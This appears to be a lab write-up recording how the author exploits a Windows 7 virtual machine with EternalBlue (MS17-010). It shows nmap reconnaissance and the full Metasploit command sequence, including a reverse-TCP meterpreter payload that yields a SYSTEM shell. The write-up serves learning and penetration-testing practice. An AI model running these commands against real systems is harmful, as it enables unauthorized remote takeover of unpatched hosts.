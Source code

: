 # 💣 EternalBlue Exploit – Windows 7 (SMB RCE)

> *“If it’s still running Windows 7 in 2025... well, you know what’s coming.”*

## 🎯 Target Information

**Victim IP**: `192.168.88.130`

**OS**: Windows 7 Ultimate SP1

**Exploit Used**: EternalBlue (MS17-010)

**Toolset**: `nmap`, `Metasploit`

---

## 🔍 Initial Recon

Started with a full TCP scan and aggressive detection:

```bash
nmap -T4 -p- -A 192.168.88.130
```

![image](https://github.com/user-attachments/assets/68cf593e-9047-4174-bf81-ba3669417efc)

### Notable findings:

* Port **445** is open (SMB)
* OS Fingerprinting: **Windows 7 Ultimate 7601 SP1**
* SMB signing: **Disabled** (😬)
* System time and NetBIOS name revealed
* Plenty of exposed MSRPC ports — standard for Windows 7

---

## 📚 Exploit Research

Google confirmed what my gut already suspected — **EternalBlue** still haunts the halls of SMBv1 in 2025.
Found it on Exploit-DB: [exploit-db.com/exploits/42315](https://www.exploit-db.com/exploits/42315)

MS17-010 is a well-known Remote Code Execution flaw in SMBv1, exploited in the wild (e.g., WannaCry). So naturally, it’s a prime candidate.

---

## ⚔️ Attack Execution with Metasploit

Fired up the **Metasploit Framework** and searched for EternalBlue modules:

```bash
search eternalblue
```

Got a match for:

```
exploit/windows/smb/ms17_010_eternalblue
```

### 🔍 Pre-check

Before launching, I used an auxiliary scanner to verify the host’s vulnerability:

![image](https://github.com/user-attachments/assets/06ab439e-ef6d-4950-ab75-b22dc6061b13)

Then loaded the actual exploit module and configured the settings:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.88.130
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your-kali-ip>
run
```

Checked the options one last time (because Metasploit doesn't play nice with typos):

![image](https://github.com/user-attachments/assets/31f3254d-13a4-4167-a318-1c7f26c259db)

---

## 🎯 Exploit Triggered

Ran the exploit — and **meterpreter shell** popped like champagne on root day 🍾

![image](https://github.com/user-attachments/assets/9a04ee5b-a386-4022-bbdb-71983d16ad6a)

Full control of the system with `SYSTEM`-level privileges. Game over.

---

## 🧠 Key Takeaways

* EternalBlue is *still* deadly on unpatched legacy systems.
* Port 445 open on a Windows 7 box? Might as well roll out the red carpet for RCE.
* Even now, Metasploit makes exploitation approachable and lethal.
* Always verify with an auxiliary scan before launching — saves time and keeps things clean.

---

## 🧰 Tools Used

* `nmap`
* `Metasploit Framework`
* EternalBlue exploit: `exploit/windows/smb/ms17_010_eternalblue`

---

## 🏁 Outcome

* Shell obtained via SMBv1 exploit
* SYSTEM-level access achieved
* Box thoroughly compromised
